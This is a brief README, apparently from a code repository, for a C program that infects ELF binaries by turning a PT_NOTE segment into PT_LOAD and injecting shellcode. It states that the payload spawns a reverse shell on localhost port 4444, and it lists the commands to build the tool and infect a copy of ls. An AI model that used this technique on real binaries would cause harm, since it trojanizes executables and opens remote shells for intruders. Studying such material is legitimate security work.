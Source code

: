 # readme

A small ELF infector written in C. This program tries to find a valid PT_NOTE segment and convert it to a PT_LOAD segment.

The shellcode in the array for the patching function is derived from the assembly in jumpstart.s. The included payload is written in NASM and generates shellcode to spawn a reverse shell on localhost, port 4444.

```
$ gcc -o elf_infector elf_infector.c
$ cp $(which ls) ls
$ nasm -o shellcode shellcode.s
$ ./elf_infector ./ls shellcode
```

UwU


